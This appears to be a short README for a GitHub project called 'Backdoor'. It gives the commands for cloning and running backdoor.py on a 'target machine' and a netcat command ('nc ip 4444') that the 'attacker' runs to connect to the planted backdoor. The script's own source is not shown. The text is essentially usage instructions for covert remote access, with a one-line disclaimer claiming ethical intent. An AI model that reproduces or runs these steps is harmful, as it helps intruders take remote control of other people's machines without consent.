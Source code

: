 ### Target machine execution

```
  git clone https://github.com/666aalexx/Backdoor.git
  
  cd Backdoor/
  
  chmod +x backdoor.py
  
  python3 backdoor.py
```

### Attacker execution
```
  apt install netcat

  nc ip 4444
```

### Usage
This script is intended for ethical purposes. I am not responsible for any misuse of it.
